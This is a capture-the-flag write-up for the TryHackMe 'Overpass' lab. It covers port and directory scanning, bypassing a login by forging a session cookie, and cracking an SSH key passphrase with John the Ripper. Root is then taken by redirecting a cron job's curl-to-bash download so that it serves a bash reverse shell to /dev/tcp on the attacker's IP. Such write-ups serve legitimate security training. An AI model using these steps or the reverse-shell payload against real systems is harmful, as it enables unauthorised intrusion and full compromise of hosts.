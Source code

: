 # TryHackMe-Overpass

## NMAP

```
nmap -sC -sV 10.10.124.118
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-10 22:35 PKT
Nmap scan report for 10.10.124.118
Host is up (0.18s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## PORT 80 

<img src="https://imgur.com/xcyfMJ0.png"/>


<img src="https://imgur.com/BulGTu9.png"/>

Download the file to see what's in it.

<img src="https://imgur.com/AvTo4vg.png"/>

There's also a source code in`golang` let's see maybe we can find something it in so we can exploit that binary.

<img src="https://imgur.com/HTCFWVM.png"/>


## Gobuster 

```
root@kali:~/TryHackMe/Easy/Overpass# gobuster dir -u http://10.10.124.118 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.124.118
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/10 22:50:19 Starting gobuster
===============================================================
/img (Status: 301)
/downloads (Status: 301)
/aboutus (Status: 301)
/admin (Status: 301)
/css (Status: 301)
```
We see that there's an `/admin` page 

<img src="https://imgur.com/fpxT1P0.png"/>

Looking at the source we can see 3 javascript files , we are interested in `login.js` so let's view the source code

<img src="https://imgur.com/fJJxGie.png"/>

This is a vulnerabale piece of code that would make  authenticate a user with invalid crdentials if he has a session so let's make a fake `SessionToken` with a browser extension named `EditThisCookie`


<img src="https://imgur.com/QUvzdrS.png"/>

On refreshing the page we will get the ssh key for `james`

<img src="https://imgur.com/YkdknxT.png"/>

But it's asking for the passphrase of `id_rsa` so we can get the hash of `id_rsa` with `ssh2john` and crack it with `johntheripper`

```
root@kali:~/TryHackMe/Easy/Overpass# /usr/share/john/ssh2john.py id_rsa > ssh_hash
root@kali:~/TryHackMe/Easy/Overpass# john --wordlist=/usr/share/wordlists/rockyou.txt ssh_hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (id_rsa)
1g 0:00:00:03 31.13% (ETA: 20:37:40) 0.3125g/s 1444Kp/s 1444Kc/s 1444KC/s play646..play47
Session aborted

```
Then `ssh james@<ip> -i id_rsa`

<img src="https://imgur.com/vZId0He.png"/>

## Privilege Escalation

Host `linpeas.sh` on local machine and transfer it to target machine
<img src="https://imgur.com/uc27Vj1.png"/>

I didn't find anythin with linpeas so next thing that I looked at was a file `.overpass` in `james`'s home directroy , reading the content of the file it was gibberish 

`,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.`

I visited https://gchq.github.io/CyberChef/

<img src="https://imgur.com/FKVZOP5.png"/>

This password is for `james` but still he is not in group `sudoers`
<img src="https://imgur.com/hSCBu72.png"/>

That was a rabbit hole then check for cronjobs

```
james@overpass-prod:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
james@overpass-prod:~$ 
```
looking at `/etc/hosts` we can change this localhost to our local machine's address and add a reverse shell in bash with path `<our_vpn_ip>/downloads/src/buildscript.sh`
```
james@overpass-prod:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
127.0.0.1 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
james@overpass-prod:~$ 

```
Now making directory `/downloads/src/buildscript.sh`

```
root@kali:~/TryHackMe/Easy/Overpass# mkdir downloads
root@kali:~/TryHackMe/Easy/Overpass# cd downloads/
root@kali:~/TryHackMe/Easy/Overpass/downloads# mkdir src
root@kali:~/TryHackMe/Easy/Overpass/downloads# echo "bash -i >& /dev/tcp/10.14.3.143/8080 0>&1" > buildscript.sh
root@kali:~/TryHackMe/Easy/Overpass/downloads# chmod +x buildscript.sh 
```
<img src="https://imgur.com/XDMf6VA.png"/>

And just like that we will get the reverse shell as `root` !